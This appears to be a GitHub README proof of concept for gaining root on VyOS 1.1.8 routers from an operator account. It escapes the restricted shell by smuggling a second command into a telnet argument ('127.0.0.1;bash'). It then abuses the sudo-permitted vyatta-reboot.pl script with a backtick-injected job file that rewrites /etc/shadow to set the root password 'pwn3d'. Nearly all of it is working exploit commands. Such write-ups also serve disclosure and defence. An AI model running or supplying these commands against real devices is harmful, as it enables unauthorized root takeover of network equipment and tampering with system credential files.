 # VyOS-Get-Root
Privilege escalation to root on VyOS from an operator CLI

If you have operator-level console access on VyOS (or possibly another OS derived from Vyatta - Brocade vRouter or Ubiquiti EdgeOS) then you can use this technique to gain console access as root.  This has been tested on VyOS version 1.1.8.

The operator mode is already known to be insecure in other ways, so the account is normally not available.  However some administrators have manually added operator accounts.  Here is an example of how an operator account could be created.

```
configure
set system login user operator level operator
set system login user operator authentication plaintext-password Operator123
commit
save
```

Once logged in as `operator` with the password of `Operator123` in this example, you will be dropped into a restricted shell `/opt/vyatta/bin/restricted-shell` that normally does not have configuration write capabilities or access to the bash shell and commands.

Execute the following command to escape out of the `restricted-shell` and acquire a normal `bash` shell:<br />
`telnet "127.0.0.1;bash"`

See that you can now execute bash commands:<br />
`id`<br />
`sudo -l`

You should notice from the above command that an operator has limited sudo capabilities to scripts located under `/opt/vyatta/bin/sudo-users/`

You can exploit the `vyatta-reboot.pl` script to change the root password:<br />
``echo '`ROOTPW=$(openssl passwd -1 pwn3d); echo "root:$ROOTPW:17481:0:99999:7:::" > /tmp/shadow; tail -n +2 /etc/shadow >> /tmp/shadow; mv /tmp/shadow /etc/shadow; chmod 640 /etc/shadow; chown root:shadow /etc/shadow`' > /var/run/reboot.job``

`sudo /opt/vyatta/bin/sudo-users/vyatta-reboot.pl --action show_reboot`

`rm /var/run/reboot.job`

Now exit the CLI as the operator account and login as `root` with a password of `pwn3d`.
